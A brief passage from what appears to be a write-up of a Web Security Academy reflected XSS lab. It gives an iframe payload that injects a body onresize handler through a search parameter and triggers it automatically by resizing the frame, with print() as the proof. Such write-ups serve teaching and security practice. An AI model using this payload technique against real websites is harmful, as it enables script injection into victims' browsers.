 ![picture 3](/assets/images/cbfa5d8f49a5e5e53c933fcd5631894b547db16c695a38deddbae725365269de.png)  

Now we would prefer an event where no user interaction is needed. If we take resize, we need a manual resize action, or else the payload won't trigger. Since we're sending this to a victim, we can esize a window of iframe.

Payload:
```html
<iframe src="https://0a8200dd0430075fc1530929004900c8.web-security-academy.net/?search="><body onresize=print()>" onload=this.style.width='100px'>
```

![picture 4](/assets/images/f1786e7fe0dd8264c8cfe68f8607bc5607a0d6edcfe3418df5028cfb176a7d5b.png)  

